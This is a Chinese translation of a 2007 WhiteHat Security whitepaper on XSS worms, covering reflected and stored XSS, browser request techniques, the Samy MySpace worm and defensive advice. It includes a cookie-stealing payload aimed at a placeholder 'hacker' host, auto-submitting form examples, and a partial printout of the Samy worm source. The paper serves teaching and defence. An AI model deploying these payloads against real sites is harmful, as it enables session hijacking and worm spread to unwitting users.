






June 2007 – updated Jeremiah Grossman

Founder and CTO, WhiteHat Security

翻译：[Fooying](http://hi.baidu.com/fooying)（知道创宇安全研究团队）

2013/1/1

<!--more-->

# 介绍

2005 年 10 月 14 日, “Samy worm1”成为第一大使用跨站脚本 2(“XSS”)进行传播感染的蠕虫。一夜之间，蠕虫在世 界最流行的社交网站 MySpace.com 上，更改了超过一百万个人用户个人资料页面。该蠕虫通过 JavaScript 病毒性代码 来感染网站，并且添加一个叫 Samy 的黑客为”朋友”和”英雄 3”(译者注:类似于微博关注)。使得 MySpace 这样一个在美 国超过 3200 万用户的、排名前十(根据 ALEXA 排名)的网站被迫关闭以阻止冲击。

Samy，蠕虫作者，原意只是想要变得更知名,然后这样的一个 payload 也是相对良性的。但是，请想想他拥有和控 制着超过一百万可支配的 Web 浏览器和千兆带宽，他可以做什么——浏览器，也可能登录到谷歌，雅虎，微软 Passport， 易趣，网络银行，股票经纪，博客，留言板，或任何其他的 Web 应用程序。不过重要的是我们开始了解相关的风险 的大小与 XSS 恶意软件的方法和途径，企业可以保护他们自己和他们的用户，尤其是当恶意软件来源于信任的网站和 侵略性的编写者。

在本白皮书中，我们将提供一个关于 XSS 的概述;定义 XSS 蠕虫;检验传播方式，感染率和潜在的影响。最重要的是，我们将描述如何立即采取措施，企业可以采取以捍卫他们的网站。

# 关于 XSS 蠕虫和病毒的 10 条快速介绍_你现在需要知道的:

XSS 的爆发：

1、 可能来自社区驱动的受欢迎的网站的功能，如社交网络，博客，用户评论，留言板，聊天室，网络邮件，和维基 百科。

2、 可发生于任何时间，因为传播所需的漏洞存在于超过 80%的网站。

3、 甚至比更臭名昭著的蠕虫病毒,如 Code Red, Slammer 和 Blaster 传播的更快更干净。

4、 可以创建一个 Web 浏览器僵尸网络实现大规模的 DDoS 攻击。存在破坏数据、发送垃圾邮件、欺骗客户的潜力。

5、 与操作系统（Windows，Linux 和 Macintosh OS X 等等）无关，因为是在 Web 浏览器发生并执行的。

6、 能够避免网络堵塞,因为通过 Web 服务器到 Web 浏览器（客户端 - 服务器）模式传播，而不是一个典型的盲目的 对等模型。

7、 不依赖于 web 浏览器或者操作系统漏洞。

8、 可以利用第三方提供的网页部件（广告横幅，天气和投票模块，JavaScript 的 RSS 订阅，流量计数器等）传播。

9、 找出恶意代码将是一个挑战，因为受感染的浏览器的网络行为保持相对不变，很难区分正常的 Web 页面标签中的

JavaScript 攻击代码。

10、 比传统互联网病毒更容易停下来，因为拒绝感染网站的访问可以被隔离以阻止传播。

# XSS 的概述

最重要的要了解 XSS 漏洞的是，他们是目前为止发现的，在所有网站超过 80％比例的定制 Web 应用程序中最常 见的漏洞。虽然跨站点脚本在一段时间内一直被认为是中等程度的的漏洞，但 XSS 蠕虫和病毒的出现，已经提高了 XSS 的评估。软件开发人员和安全专业人员需要知道它是多么简单，以防止代码开发过程中出现 XSS 漏洞，并且一经查出， 他们是多么容易解决。XSS 是一种攻击技术，它使得一个网站，写出攻击者提供的可执行代码，然后加载在用户的 Web 浏览器。也就是说，当黑客使用存在漏洞的网站作为攻击的通道时，用户是预定的受害者。

# 非持久型 XSS

(译者注：也叫反射型 XSS)

想想看，一个黑客想使用“(http://victim/)/”网站对用户进行 XSS 攻击。黑客会采取的第一个步骤是在 [http://victim/](http://victim/) 找出一个 XSS 漏洞，然后构造一个特制的 URL，也被称为链接。要做到这一点，黑客会搜寻网站上的客户端提供的数 据可以被发送到 Web 服务器，然后回显到屏幕上的任何功能，比如搜索框。

图一展现的是一种常见的在线发布的博客。XSS 漏洞往往出现在搜索框表单。在搜索字段中输入“test search”， 响应页面将用户输入的文本在显示在三个不同的位置，如图 2 所示。图下方是新的 URL。查询字符串中包含值为 “test+search”的“search”参数。这个 URL 值可以在运行时更改，甚至包括 HTML / JavaScript 的内容。



图 1 [http://victim/](http://victim/)

图 2 [http://victim/search.pl?search=test+search](http://victim/search.pl?search=test%2Bsearch)

图 3 展示了原来的搜索词被替换为下面的 HTML / JavaScript 代码时会发生什么：

Example 1\.

```
”><SCRIPT>alert(‘XSS%20Testing’)</SCRIPT>
```

结果页面弹出了一个无害的警告对话框。根据提示，提交的代码已经成为 web 页面的一部分，证明了 JavaScript 已进入到[http://victim/](http://victim/%E7%9A%84%E4%B8%8A%E4%B8%8B%E6%96%87%E5%B9%B6%E5%BE%97%E5%88%B0%E6%89%A7%E8%A1%8C)的上下文并得到执行。图 4 展示了夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代 码。



图 3，原来的搜索词将被替换为 HTML/ JavaScript 代码。

图 4，夹杂有新的 HTML/ JavaScript 代码的 Web 页面的 HTML 源代码。

此时，黑客将会继续修改这个 URL，包含更复杂的 XSS 攻击来利用用户。一个典型的例子是一个简单的 cookie 盗 窃的攻击。

Example 2.

```
“><SCRIPT>var+img=new+Image();img.src=”http://hacker/”%20+%20document.cookie;</SCRIPT>
```

前面的 JavaScript 代码创建一个图像 DOM（文档对象模型）对象。

```
var img=new Image();
```

因为 JavaScript 代码在“[http://victim/](http://victim/)”上下文中执行，所以它可以访问 cookie 数据。

```
document.cookie;
```

图形对象然后指派一个外域的 URL 发送带有 Web 浏览器的 Cookie 字符串的数据到“[http://hacker/](http://hacker/)”。

```
img.src=”http://hacker/” + document.cookie;
```

下面是一个例子，是一个被发送的 HTTP 请求。

Example 3.

```
GET http://hacker/path/_web_browser_cookie_data HTTP/1.1
Host: host
User-Agent: Firefox/1.5.0.1
Content-length: 0
```

一旦黑客完成了他的攻击代码，他会通过垃圾邮件，留言板的帖子，即时消息和其他方法宣传这种特制的链接， 试图吸引用户点击。是什么让这种攻击这么有效？用户可能点击正常的网络钓鱼邮件 7 中的链接是因为这个 URL 包 含了真正的网站域名，而不是一种外观相似的域名或随机的 IP 地址。应当注意的是，过长的 XSS 链接可以使用 URL 缩短服务，如 TinyURL.com 进行伪装。

# 持久型 XSS

(译者注：也叫存储型 XSS)

持久型（或 HTML 注入型）XSS 攻击最常发生在由社区内容驱动的网站或 Web 邮件网站，不需要特制的链接来 执行。黑客仅仅需要提交 XSS 漏洞利用代码到一个网站上其他用户可能访问的地方。这些地区可能是博客评论，用户 评论，留言板，聊天室，HTML 电子邮件，wikis，和其他的许多地方。一旦用户访问受感染的网页，执行是自动的。 这使得持续性的 XSS 的危险性比非持久性高，因为用户没有办法保护自己。一旦黑客成功在某个页面注入了漏洞利

用代码，他将宣传受感染页面的 URL 来希望不知情的用户中招。即使用户对非持续性 XSS 的 URL 懂得识别，也会很 容易的受到影响(译者:中招)。

无论使用非持续性或持续性的 XSS 漏洞，黑客可以利用用户，导致网络和财务上的损失，有许多的方法。 从这点出发，我们将专注于的 XSS 病毒和蠕虫的攻击技术。欲了解更多 XSS 信息，请访问“跨站脚本常见问题解答 8”和“XSS 小抄 9” ，两个优秀的信息资源。

# 他们是怎么做的:传播的方法

对于一个病毒或蠕虫想要成功，它需要一个执行和传播的方法。电子邮件病毒通常在鼠标点击后执行，然后通过 您的联系人列表来发送带有恶意软件的的邮件进行传播。网络蠕虫利用远程利用漏洞危害机器和并且通过连接到其他 存在漏洞的主机进行传播。除传播之外，蠕虫病毒还是高度多样化，包括创造 DDoS 僵尸网络，垃圾邮件僵尸，或远 程键盘监控的能力。XSS 蠕虫与其他形式的恶意软件相似，但以自己独特的方式执行和传播。使用一个网站来存放恶 意代码，XSS 蠕虫和病毒通过控制 Web 浏览器，使得它复制恶意软件到网络上的其他地方去感染别人来进行传播。例 如，一个含有恶意软件的博客评论，可以使用访问者的浏览器发布额外的感染性的博客评论。XSS 蠕虫病毒可能会使 得浏览器进行发送电子邮件，转账，删除/修改数据，入侵其他网站，下载非法内容，以及许多其他形式的恶意活动。 用最简单的方式去理解，就是如果没有适当的防御，在网站上的任何功能都可以在未经用户许可的情况下运行。

在最后一节中，我们将重点放在 XSS 漏洞本身，以及用户可以怎么样被利用。现在，我们来看 XSS 恶意软件是如 何可以进行远程通信。XSS 漏洞利用代码，通常是 HTML / JavaScript，使用三种方式使得浏览器发送远程 HTTP 请求的 浏览器：嵌入式的 HTML 标签，JavaScript DOM 的对象，XMLHTTPRequest（XHR）。

另外，请记住，如果你碰巧登录到远程网站，您的浏览器是被迫作出的身份验证的请求的。关于 XSS 恶意软件的 传播方法与传统互联网病毒的明显差异将会进行简要说明。

嵌入式 HTML 标签

一些 HTML 标签具有在页面加载时会自动发起 Web 浏览器的 HTTP 请求的属性。有一个例子是 IMG（图像）的 SRC 属性。SRC 属性用于指定在 Web 页面中显示的图像文件的 URL 地址。当你的浏览器载入带有 IMG 标签的网页， 图像会自动被请求，并在浏览器中显示。但是，SRC 属性也可以被用于任何 Web 服务器的其他 URL，不仅仅是包含图 像的。

例如，如果我们进行了谷歌搜索“WhiteHat Security”我们最终得到了下面的 URL：

```
http://www.google.com/search?hl=en&q=whitehat+security&btnG=Google+Search
```

这个 URL 可以很容易地取代 IMG 内的 SRC 属性的值，从而迫使您的 Web 浏览器中执行相同的谷歌搜索。

```

```

显然使得 Web 浏览器发送一个谷歌搜索请求是没有什么危害性的。然而，URL 构建的同样的过程可以用来使得 Web 浏览器自动进行银行账户资金的汇款，发表煽动性言论，甚至入侵网站。这一点可以说明，这是一个迫使一个 Web 浏览器连接到其他网站，使的 XSS 蠕虫病毒传播的机制。

额外的源码例子可见“嵌入式 HTML 标签”的附录部分。

JavaScript 和文档对象模型

JavaScript 被用于给网站访问者一个丰富的、交互式的体验。这些网页更接近于一个软件应用程序，而不是一个 静态的 HTML 文档。我们常会看到 JavaScript 被用于进行图像的翻转，动态表单输入检查，弹出对话框，下拉菜单， 拖动和拖放等。JavaScript 有接近完全的对网站上的每一个对象，包括图像，cookies，窗口，框架和文本内容的访问。 这些对象中的每一个都是文档对象模型（DOM）的一部分。

DOM 提供了一系列 JavaScript 读取和操作的应用程序编程接口（API）。类似嵌入式 HTML 标签的功能，JavaScript 可以操纵 DOM 对象自动发起 Web 浏览器的 HTTP 请求。图像和窗口的源 URL 可以被重新指定为其他 URL 的。

在上一节中，我们可以使用 JavaScript 来改变图像的 DOM 对象 SRC 进行谷歌搜索“WhiteHat Security”。

```
img[0].src = http://www.google.com/search?hl=en&q=whitehat+security&btnG=Google+Search;
```

正如上一节中，迫使 Web 浏览器连接到其他网站发送一个谷歌搜索请求是一种无害的例子。但这也说明了 XSS 恶意软件传播的另一种方法。

额外的源码例子可见“JavaScript DOM 对象”的附录部分。

XmlHttpRequest (XHR)

2005 年 2 月，Jesse James Garrett 创造一个被称为“异步 JavaScript 和 XML”或“AJAX”的 Web 编程术语 10。AJAX 定义了使网站内容进行更新而无需重新加载的技术的集合。今天，许多流行的网站，包括 Gmail 和谷歌地图使用 AJAX 的丰富的功能。中央的底层技术是一种称为 XMLHttpRequest1（1 XHR）的 JavaScript API，支持 IE 浏览器，Mozilla，Firefox，Safari，Camin，Opera 和许多其他浏览器的。XHR 提供了一个灵活的机制来发送 HTTP 请求。有 XHR 后，使用 HTML 技 巧或操作 DOM 对象是没有必要的。任意请求可以在后台发送。

源码例子可见“XmlHTTPRequest”的附录部分。

# 第一个 XSS 蠕虫: Samy

2005 年 10 月 4 日，Samy 蠕虫，同类中第一个重大的蠕虫病毒，利用一个在 MySpace.com 的个人资料页面模板 的持续的跨站点脚本漏洞进行传播。Samy，也是作者，用漏洞的 JavaScript 攻击代码的第一个副本更新了他的个人资 料页面（图 5）。MySpace 上进行一些的输入的黑名单过滤，以防止 XSS 攻击，但他们还做的不够好。使用一些绕过技 术，Samy 成功上传了他的代码。当一个通过身份验证 MySpace 的用户观看 Samy 的个人资料，该蠕虫病毒的 payload 使用 XHR，使得用户的网页浏览器发送请求，增加 Samy 为朋友，包括加 Samy 为他英雄（译者注：类似微博关注）（“但最重要的是，加 Samy 为英雄这点”，如图 6），并用恶意代码的副本改变用户的个人资料。当用户访问 Samy 或 者其他受感染用户的个人资料页，他们基本上在打开浏览器时就受到攻击。


图 5 和图 6 示是 MySpace 蠕虫的技术解释。

图 5（左）。Samy，作者，更新了他的个人资料的页面。

图 6（右）。

当通过身份验证的 MySpace 用户浏览 Samy 的个人资料，蠕虫 payload 使用 XHR，使得用户的 Web 浏览器添加 Samy 朋友，包括添加 Samy 为英雄从单一访客，然后随着在社交网络上的每一个新的不知情的朋友，Samy 蠕虫感染呈几何级数增长，受感染的用 户资料页面超过 1,000,000。MySpace 是被迫关闭其网站，以阻止感染，修复漏洞，并进行清理。重要的是要注意， MySpace 的用户不需要是脆弱的东西。对于任何类似的蠕虫病毒所需要的是一个对于大多数网站已经存在的流行网 站的漏洞。为了获得 Samy 蠕虫的意义的新的认识，我们会比较其它相关的暴发，并看到它如何壮大起来的。

# 第一个 24 小时的传播：Samy 创下的纪录

病毒或蠕虫爆发的第一个 24 小时内，传播速度最快，并导致造成最大的伤害。病毒和蠕虫传播使用各种不同的 技术，各有自己的长处和局限性。全球网络的反应的首要任务是先确定新的疫情，隔离源头，捕捉违规的恶意软件， 确定感染方法和传播模式，然后制定防御措施。让我们回顾一些近几年的大爆发，然后看看 Samy 蠕虫是如何使他们 黯然失色的。

### Code Red I 和 Code Red II(红色代码)

2001 年 7 月 12 日 - “红色代码”利用了微软的 IIS Web 服务的缓冲区溢出漏洞。红色代码（Code Red）在 24 小 时通过随机扫描其他受害者感染了超过 359,000 的电脑 15。几个星期后（2001 年 8 月 4 日），红色代码 II，不同的但 更先进的蠕虫，利用相同的漏洞来感染 275,000 台电脑 16。从许多变种的红色代码（Code Red）的 payload 分析，包含有网站涂改，种植后门，拒绝服务攻击白宫网站。相关的预计恢复成本接近 26 亿美元。

### Slammer(地狱)

2003 年 1 月 25 日 - Slammer17，只有 376 字节大小，利用未打补丁的版本的 Microsoft SQL Server 中的一个缓冲 区溢出漏洞传播它自己在 UDP 端口 1434 上。受感染的主机会随机扫描 IP 地址，并迅速蔓延到其他易受攻击的主机 18。令人印象深刻的是，大多数 Slammer 的受害者（55,000 至 75,000）在爆发的第一个十分钟内被感染 19。非常快 的增长速度，造成了全球性的网络中断，影响了数百万台计算机，造成大约 10 亿美元的损失。但是，闪电的增长速度所致的中断阻碍了整体感染。在 24 小时之内，冲击波在全球各地已经感染了 336,000 台计算机。

### Blaster(冲击波)

2003 年 8 月 11 号 - “冲击波”蠕虫通过远程过程调用（RPC）攻击未打补丁的版本的 Microsoft Windows 的计算 机而到来。一旦计算机被感染，该蠕虫会打开一个 TFTP（简单文件传输协议）命令其他受感染的机器下载 payload。 在 24 小时之内，冲击波在全球各地已经感染了 336,000 的计算机 20。一旦安装就位，冲击波修改系统启动项，在启 动的时候运行自己并开始扫描互联网其他易受感染的机器。

# 对比分析

通过比较每个蠕虫在第一个 24 小时内的传播总数（图 7 所示），Samy 蠕虫轻而易举地超过了往年的那些蠕虫。 同样重要的是要明白，大多数的蠕虫在操作系统或应用程序级别感染的整个电脑。XSS 蠕虫和病毒，在另一方面，只 感染网络浏览器。但是，跨站脚本恶意软件拥有利用特定的网页浏览器的漏洞直接获得操作系统和应用层上的利用代 码的权力。



图 7，蠕虫的第一个 24 小时的传播量

上图引出了一个非常中肯的问题：为什么 Samy 能够成长的比以前的蠕虫病毒如此的快，而不会造成灾难性的网络拥塞吗？答案可能是 XSS 病毒传播方式不同，并没有引起广泛的网络饱和度，阻碍感染率。 如红色代码，Blaster 和 Slammer 等蠕虫使用快速的方法传播。每个受感染的主机爆炸的互联网 IP 地址范围是困难和尽可能快的，（图 8）。随着受感染机器的数量的增加，所以无用的网络噪声的数量也随着增加。经过一段时 间，感染的网络开始失去其效力，因为目标机器不存在，或仅仅是不容易受到攻击。然后，在某些时候，网络变得 负担过重，最终在流量洪水中崩溃。那么， XSS 蠕虫与这有何不同？

XSS 蠕虫和病毒有一个分布的中心点，Web 服务器，并且执行只发生在 Web 浏览器。接下来，攻击代码只从 Web 服务器发送到浏览器，反之亦然（见图 9），而不是从浏览器到浏览器或其他蠕虫的对等情况。这个特性减少了 网络噪声的体积。此外，每个网站访问代表一个活的计算机和可能的受害者，因为 XSS 恶意软件是不依赖于操作系 统。因此，感染的成功率要大得多。



图 8，对等网络的蠕虫传播



图 9，Web 服务器到 Web 浏览器的蠕虫传播 在本白皮书中开头，我们问：“拥有和控制着超过一百万可支配的 Web 浏览器和千兆带宽，可以做什么？”大规模的分布式拒绝服务攻击（DDoS）是一个简单的答案。让我们保守地说，每个浏览器有一个 128 Kb / s 的平均速 度（千比特/秒），并能产生一个 HTTP 请求，每秒的组合拨号，DSL，电缆，和 T-1 连接。其结果将是 128,000,000 Kb/ s 或 122 Gb / s 的吞吐量和每秒 1,000,000 HTTP 请求- 无疑是一个巨大的资源集合的访问。

作为对照，在 2000 年初，几个大型网站（雅虎，嘉信理财，Amazon.com，ETRADE，CNN.com）被进行了大规 模的 DDoS 攻击。一些网络运营商声称超过 1 Gb / s 的流量。巨大的损失和宕机时间。安全的说，一个设计良好的跨 站脚本蠕虫可能破坏甚至最强大的网络，因为很少，如果有的话，系统可以承受 100 千兆/秒或更大的负荷。在 Samy 蠕虫后的不久，更多的 XSS 蠕虫被发现—或者表明了一种东西到来的趋势。

# 最坏的情况

随着 XSS 病毒和蠕虫作者增加其复杂程度，它们会开始寻找大多数 Web 浏览器可以直接访问的网站的区域。最 流行的网站，包括社区驱动的内容，将继续成为主要的目标。恶意软件的编写者甚至可能开始结合多个网站的漏洞 以达到最大效用。但是，也有另一种微妙的目标 - 第三方供应商的插件，包括横幅广告，天气和投票模块， JavaScript 的 RSS 提要，流量计数器，等等。

第三方网站的部件往往包含在使用 JavaScript 的远程调用的 HTML 代码里。下面是一个例子（见例 4。）许多网 站包括谷歌的 AdSense（参见图 10）使用 JavaScript。

Example 4.

```
<script type=”text/javascript”><!-- google_ad_width = 728;
google_ad_height = 90; google_ad_format = “728x90_as”; google_ad_type = “text_image”; google_ad_channel =””; google_color_border = “CCCCCC”; google_color_bg = “FFFFFF”; google_color_link = “000000”;
google_color_url = “666666”;
google_color_text = “333333”;
//-->
</script>
[<script type=”text/javascript” src=” http://pagead2.googlesyndication.com/page](http://pagead2.googlesyndication.com/pagead/)ad/ show_ads.js”>
</script>
```

请注意，SCRIPT 标签 SRC 属性和它的值 [http://pagead2.googlesyndication.com/pagead/show_ads.js](http://pagead2.googlesyndication.com/pagead/show_ads.js)。在 JavaScript 代码中的 SCRIPT 标签 SRC 属性的值从远程位置（谷歌）调用并在页面加载时，在页面的上下文内执行。 如果“show_ads.js 中”被入侵，并含有一个 XSS 漏洞，使用此代码的所有网站将受到影响。然后，当用户访网页时，他们会成为像受到 Samy 蠕虫感染的用户一样受到感染，但模规更大。这可以很容易地在任何时刻影响百万 计的用户。其他如 DoubleClick 的广告横幅供应商也同样如此。管理者应从第三方部件代码提供商寻求安全保证。



图 10,谷歌 AdSense 的截图

（[http://www.google.com/services/adsense_tour/](http://www.google.com/services/adsense_tour/)）

# 最好的防御

在过去超过十年的时间里，反病毒界一直依赖于快速的反应时间来限制蠕虫和病毒所造成的损害。随着新一代 的恶意软件的飞速发展，在事件被稳定前，可能会损失数百万，甚至数十亿美元。这种情况要求我们将采取步骤， 确定疫情的发生和防止问题的发生放在第一位。以下是为了限制这些新品种的病毒和蠕虫的影响而为用户，开发人 员，安全专家和浏览器厂商提供的明确的步骤：

# 用户

1\． 点击链接发送电子邮件或即时消息时一定要谨慎。可疑的过长链接，尤其是那些看起来像是包含 HTML 代码 的链接。如果有疑问，手动输入网址到您的浏览器地址栏进行访问。

2\． 对于 XSS 漏洞，没有网络浏览器有一个明显的安全优势。话虽如此，但作者喜欢 Firefox 浏览器。为了获得 额外的安全性，可以考虑安装一些浏览器插件，如 NoScript25（Firefox 扩展插件）或 Netcraft 工具栏 26。

3\． 虽然不是 100％有效，但是避开可疑网站，如那些提供黑客自动化工具，warez，或色情的网站是明智的。

# 开发者

1\. 对于开发人员来说，首先需要注意的是应该对所有用户提交的内容执行坚如磐石输入验证。这包括网址，查 询字符串，header，POST 数据等所有用户提交的内容。只接受您所希望的字符，在您指定的长度内，和指定 的相应的数据的格式。组织，过滤，或忽略一切。

2\. 保护被自动执行或来自第三方网站执行的所有敏感功能。在适当的情况使用会话令牌 27、验证码 28 系统或者 HTTP 引用头检查。

3\. 如果您的网站必须支持用户提供的 HTML，那么你是处在一个安全明智的下滑坡。然而，也有一些事情可以 做，来保护您的网站。请确保您收到的 HTML 内容是良好的，只包含最少的一组安全标签（绝对没有 JavaScript）， 没有包含任何引用远程的内容（尤其是样式表和 JavaScript）。而且，为了多一点的安全性，请将 httpOnly29 添 加到您的 cookie

# 安全专家

1\. 只有一种方法才能确定您的安全做法提供了足够的保障，那就是经常测试他们。在黑客攻击网站前了解你的 漏洞是是至关重要的。要做到这一点，网站的脆弱性评估是要进行的。报告应提供一个对您的网站的安全的 全面的审视，并描述他们如何应对和进行模拟攻击。WhiteHat Security 提供了一个以 Web 安全威胁分类（WASC） 为测试标准的自动化的漏洞扫描与专家驱动分析的组合方法。

2\. 正确地评估一个网站的安全性可能需要几十个，数以百计，数以千计的安全测试。许多需要手工完成。这就 是为什么 WhiteHat 的 Sentinel 在这样的服务的过程中是一个重要组成部分。源代码和黑盒子扫描产品可以减少人员在开发阶段中测试 Web 应用程序的时间。

3\. 当您的网站绝对没有任何问题了，考虑 Web 应用防火墙（WAF）作为一个额外的防御层。它们可以用来配置 用您的网站的规则并强有力的执行。任何超出规则外的行为将被阻止或者记录。由于这些设备大多是高度多 样化和复杂，可以考虑使用 Web 应用防火墙评价标准（WAFEC）作为比较的工具。

# 浏览器厂商

1\. Mozilla（火狐），微软和 Opera 开发团队必须开始正式实施内容限制。现实的情况是，等待 Web 应用软件减 少 XSS 漏洞的任何一种方法都是是不现实的，更不用说减少了 100％。

2\. Mozilla(Firefox)开发者，请执行 httpOnly，它已经出现这么多年了。

# 结论

在恶意软件行业，历史似乎在重演。当一个新的探索领域的出现，首次暴发主要集中在学习传播，而不是破坏或 摧毁系统。恶意软件的作者的实验内容是新的可能性，而且在一开始通常对做损害的事不感兴趣。这并不是说对于那 些参与人来说，相对无害的爆发，不是令人沮丧和昂贵。随着时间的推移，恶意软件的作者的技术显着提高，传播变 得更快，payload 随着后门，rootkit 和僵尸网络的引进变得更具危害性。

我们处于 XSS 恶意软件探索的早期阶段。Samy 蠕虫，第一个重大的 XSS 蠕虫，在通过传播赢得朋友，并变得出 名方面是一个成功的实验。虽然远远低于如危害帐户或进行拒绝服务攻击的纯属恶意的意图，但 Samy 蠕虫还是引起 了 MySpace 关闭其网站。如果历史继续重演，肯定地说，我们将见证一个传播速度更快，更具破坏性的 XSS 的恶意软 件爆发量的增加。问题是，谁会去做好自己的本分来抵挡我们已经看到的到来的东西？

# 附录

## 嵌入式 HTML 标签

```

```

浏览器发送的 HTTP GET 请求类似如下：

```
GET http://server/path/ HTTP/1.1
Host: host
User-Agent: Firefox/1.5.0.1
Content-length: 0
```


表单也可用于：

```
<FORM ACTION=”http://server/path/” NAME=”myform” METHOD=”POST”>
<INPUT TYPE=”HIDDEN” NAME=”Username” VALUE=”Foo”>
<INPUT TYPE=”HIDDEN” NAME=”Password” VALUE=”Bar”>
</FORM>
```

然后使用 JavaScript，我们可以自动提交表单：

```
<SCRIPT language=”JavaScript”> document.myform.submit();
</SCRIPT>
```

浏览器发送的 HTTP POST 请求类似如下：

```
POST http://server/path/ HTTP/1.1
Host: server
User-Agent: Firefox/1.5.0.1
Content-length: 25

Username=Foo&Password=Bar
```

一个 JavaScript 发起的表单提交可能导致的网络浏览器发出一个警告对话框，用户可能会进行点击。其他的 html

标签包括 APPLET，BASE，BODY，EMBED，LAYER，META，OBJECT，LINK，SCRIPT 和 STYLE 也可以达到同样的效果。

## JavaScript DOM 对象

```
var img = new Image();
img.src = “http://server/path/”;
```


浏览器发送一个 HTTP GET 请求类似如下：

```
GET http://server/path/
HTTP/1.1
Host: server
User-Agent: Firefox/1.5.0.1
Content-length: 0
```

使用 JavaScript DOM 对象创建一个 HTML 表单：

```
var form = document.createElement(‘form’);
form.setAttribute(“action”, “http://server/path/”);
form.setAttribute(“method”, “POST”);
form.setAttribute(“name”, “myform”);
var input 1 = document.createElement(‘input’);
input1.setAttribute(“type”, “hidden”);
input1.setAttribute(“name”, “Username”);
input1.setAttribute(“value”, “Foo”);
var input 2 = document.createElement(‘input’);
input2.setAttribute(“type”, “hidden”);
input2.setAttribute(“name”, “Password”);
input2.setAttribute(“value”, “Bar”);
document.body.appendChild(form);
form.appendChild(input1);
form.appendChild(input2);
form.myform.submit();
```

JavaScript 会自动提交表单，导致 Web 浏览器发送一个 HTTP POST 请求类似如下：

```
POST http://server/path/ HTTP/1.1
Host: server
User-Agent: Firefox/1.5.0.1
Content-length: 25

Username=Foo&Password=Bar
```

### XmlHttpRequest (XHR)

```
var req = new XMLHttpRequest();
req.open(‘GET’, ‘http://server/path)/’, true);
req.onreadystatechange = function () {
    if (req.readyState == 4) {
        alert(req.responseText);
    }
};
req.send(null);
```

浏览器发送的 HTTP GET 请求类似如下：

```
GET http://server/path/ HTTP/1.1
Host: server
User-Agent: Firefox/1.5.0.1
Content-length: 0
```

使用 XHR 发送一个 POST 请求：

```
var post_data = “Username=Foo&Password=Bar”;
var req = new XMLHttpRequest();
req.open(POST, ‘ http://host/path/’, true);
req.onreadystatechange = function () {
    if (req.readyState == 4) {
        alert(req.responseText);
    }
};
req.send(post_data);
```

发送的 POST 请求类似如下：

```
POST http://server/path/ HTTP/1.1
Host: server
User-Agent: Firefox/1.5.0.1
Content-length: 25

Username=Foo&Password=Bar
```

# Samy 蠕虫代码

```
<div id=mycode style=”BACKGROUND: url('javascript:eval(document.all.mycode.expr)')” expr=”
var B = String.fromCharCode(34);
var A = String.fromCharCode(39);
function g() {
    var C;
    try {
        var D = document.body.createTextRange(); C = D.htmlText
    } catch (e) {}
    if (C) {
        return C
    } else {
        return eval('document.body.innerHTML')
    }
}
function getFromURL(BF, BG) {
    var T;
    if (BG == 'Mytoken') {
        T = B
    } else {
        T = ' & '
    }
    var U = BG + ' = ';
    var V = BF.indexOf(U) + U.length;
    var W = BF.substring(V, V + 1024);
    var X = W.indexOf(T);
    var Y = W.substring(0, X);
    return Y
}
function getData(AU) {
    M = getFromURL(AU, 'friendID');
    L = getFromURL(AU, 'Mytoken')
}
function getQueryParams() {
    var E = document.location.search;
    var F = E.substring(1, E.length).split(' & ');
    var AS = new Array();
    for (var O = 0; O < F.length; O++) {
        var I = F[O].split(' = ');
